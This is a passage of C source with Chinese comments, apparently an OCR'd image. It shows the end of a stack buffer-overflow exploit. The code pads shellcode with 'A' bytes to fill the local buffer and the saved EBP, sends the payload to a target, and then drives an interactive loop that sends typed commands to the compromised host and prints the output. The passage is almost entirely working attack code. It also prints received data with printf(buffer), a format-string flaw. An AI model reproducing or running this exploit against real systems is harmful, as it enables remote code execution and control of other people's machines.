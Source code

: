 ```c
		printf(">> ");
		fflush(stdout);
		scanf("%s", userCommand);
	
		/*如果命令是exit则退出*/
		if(strcmp(userCommand,"exit") == 0)
		{
			free(userCommand);
			break;
		}
		
		/*给命令后面添加换行符*/
		strcat(userCommand,"\n");
		
		/*发送命令*/
		send(socketfd, userCommand, strlen(userCommand)+1, 0);
		memset(buffer, 0, 1024);
		
		/*接收命令执行结果*/
		recv(socketfd, buffer, 1023, 0);
		printf(buffer);
		fflush(stdout);
		free(userCommand);
	}


	free(buffer);
	
	/*关闭连接*/
	close(socketfd);
	
	return 0;

}


int main()
{
	/*生成填充用的字节，长度为 （局部变量空间大小+原EBP的数据的四个字节）- shellcode的长度*/
	int paddingLength = 0x88+0x4 - strlen(shellcode);
	char *padding = (char*)malloc(paddingLength+1);
	memset(padding, 'A', paddingLength);
	padding[paddingLength] = '\0';

	
	/*将shellcode和填充字节连接，生成payload*/
	int payloadLength = strlen(shellcode) + paddingLength + 4 + 1;
	char *payload = (char*)malloc(payloadLength);
	strcpy(payload, shellcode);
	strcat(payload, padding);

	printf("sendding payload...\n");

	/*发送payload*/
	SendPayload(payload, payloadLength);

	/*将malloc申请的内存进行释放*/
	free(padding);
	free(payload);
	return 0;
}
```
